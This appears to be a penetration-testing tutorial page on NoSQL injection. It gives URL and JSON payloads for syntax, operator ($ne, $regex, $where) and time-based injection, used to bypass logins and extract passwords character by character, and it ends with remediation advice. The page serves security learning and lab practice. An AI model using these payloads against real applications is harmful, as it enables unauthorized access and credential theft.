 # NoSQL Injection

Targets NoSQL databases using unstructured queries. These attacks typically exploit applications that handle user input unsafely when interacting with NoSQL databases.

## <mark style="color:orange;">Syntax injection</mark> <a href="#nosql-syntax-injection" id="nosql-syntax-injection"></a>

This occurs by attempting to break the query syntax, by submitting fuzz strings and special characters that trigger a database error or some other detectable behavior if they're not adequately sanitized or filtered by the application.

* For example, if we have a route that changes the sections of a page (for example category of products), we can use a fuzz string to check if it could be vulnerable

{% code overflow="wrap" lineNumbers="true" %}
```bash
https://$URL/$query?$param=section

# First, we can confirm which parameters are processed or cause errors
https://$URL/$query?$param='
https://$URL/$query?$param=\'  #The above causes an error, but this doesn't

# Then we can use the fuzz string '"`{ ;$Foo} $Foo \xYZ in a URL encoded format
https://$URL/$query?$param=%27%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00

# This can also be applied to a JSON format
{
    "param": "'\"`{\r;$Foo}\n$Foo \\xYZ\u0000"
}
```
{% endcode %}

{% hint style="info" %}
If the behavior of the page changes with any payload, it may mean that it is vulnerable to injection
{% endhint %}

***

* We could use conditional statements to evaluate a false statement and a true statement

{% code overflow="wrap" lineNumbers="true" %}
```bash
https://$URL/$query?$param=section'+%26%26+0+%26%26+'x # This is ' && 0 && 'x
https://$URL/$query?$param=section'+%26%26+1+%26%26+'x # This is ' && 1 && 'x
# If the application behaves differently, the false condition works, but the true condition doesn't
```
{% endcode %}

***

* We could also override boolean conditions

{% code overflow="wrap" lineNumbers="true" %}
```bash
# Like the classical payload 0R 1=1;-- on SQL
https://$URL/$query?$param=section%27%7c%7c%27%31%27%3d%3d%27%31 #It is '||'1'=='1
https://$URL/$query?$param=section%27%7c%7c%31%7c%7c%27 #It is '||1||'

# Or using a null character to ignore all conditions after
https://$URL/$query?$param=section'%00
```
{% endcode %}

***

* If we can see information about other users, like their username or role, we could assume that internally the query contains a `$where` operator to filter the information, and try to inject JavaScript functions

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash">http://$URL/user?username=admin

# We make a boolean-based injection to extract data character by character
http://$URL/user?username=admin' &#x26;&#x26; this.password[0] == 'a' || 'a'=='b
<strong>
</strong><strong># We can use functions like match to determine if the data contains some specific types of characters
</strong><strong>http://$URL/user?username=admin' &#x26;&#x26; this.password.match(/\d/) || 'a'=='b # Digits
</strong><strong>
</strong><strong># Or to determine the length
</strong><strong>http://$URL/user?username=admin' &#x26;&#x26; this.password.length &#x3C; 30 || 'a'=='b
</strong></code></pre>

{% hint style="info" %}
The _Cluster Bomb_ attack mode in the [_Burp Suite_](../../web-exploitation/tools-and-utilities.md#burp-suite) _Intruder_ tab is very useful if we want to iterate through 2 or more values at a time
{% endhint %}

***

* We can also make comparisons to determine if a field exists&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$URL/user?username=admin' && this.username!='  # If we know this exists
http://$URL/user?username=admin' && this.foo!=' #And we know this doesn't

# We can compare if they show different responses to determine which match
http://$URL/user?username=admin' && this.password!='
```
{% endcode %}

## <mark style="color:orange;">Operator injection</mark> <a href="#nosql-operator-injection" id="nosql-operator-injection"></a>

NoSQL databases often use query operators to filter the data in the result of a query

* For example, we could use the NoSQL operators to retrieve data from other objects

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong># On JSON format
</strong><strong>{
</strong>    "id": {"$ne": 0},  # Use the non-equal operator to make changes in all objects
    "message": "hello"
}

# We could target specific or known values
{
    "username":{"$in":["admin","administrator","superadmin"]},
    "password":{"$ne":""} # To consider any password 
}

# Or using a Regex
{
    "username":{"$regex":"^a*"},
    "password":{"$ne":""}
}

# Or in URL parameters
<strong>http://$URL/$query?id[$ne]=0
</strong></code></pre>

{% hint style="info" %}
We could also convert the GET requests to POST and change the _Content-Type_ header to _application/json_&#x20;
{% endhint %}

***

* We can abuse the `$where` operator to extract field names

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash">{"username":"wiener","password":"peter", "$where":"0"} #If we have a response here
{"username":"wiener","password":"peter", "$where":"1"} #And a different one here

#We could use the operator to extract information about the fields
{"username":"wiener","password":"peter", "$where":"Object.keys(this)[0].match('^.{1}a.*')"} #The values that could change are 0,1, and a

#And the related values
{"username":"wiener","password":"peter", "$where":"this.token[0].match('a')"} #This is an example with a found field

<strong>#Then we could use the recovered field in another routes
</strong>http://$URL/user?&#x3C;RecoveredField>=&#x3C;Recovered Value>
</code></pre>

{% hint style="info" %}
If we are working with dynamic values like tokens, and we see the recovered values are not working properly, we could right-click the response and select _Request in browser_ > _Original session_. Then paste the copied URL into the browser with _Burp_ active, and it should work now
{% endhint %}

***

## <mark style="color:orange;">Time-Based Injection</mark> <a href="#nosql-operator-injection" id="nosql-operator-injection"></a>

When we think we are triggering an error but we don't see a difference in the application's response, we could detect a vulnerability by triggering a time delay that gives us a clue.

* For example, we could check the timing of the page normally and then intentionally cause a delay to compare if the injection is working

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"># Using functions like sleep
<strong>http://$URL/user?username=admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'
</strong><strong>
</strong><strong>#Or based on the time and date of the browser
</strong>http://$URL/user?username=admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") &#x26;&#x26; waitTill > new Date()){};}(this)+'
</code></pre>

## &#x20;<mark style="color:blue;">Remediation Actions</mark> <a href="#preventing-nosql-injection" id="preventing-nosql-injection"></a>

* Avoid directly incorporating user-supplied input into NoSQL queries without validation or sanitization
* Use safe query-building methods provided by the NoSQL driver to separate data from query logic
* Validate all user inputs against strict data types and expected patterns
* Sanitize inputs by disallowing special characters commonly used in injections, such as $ or _{}_
* Disable or restrict the use of operators like `$where`
* Apply the principle of least privilege to database users
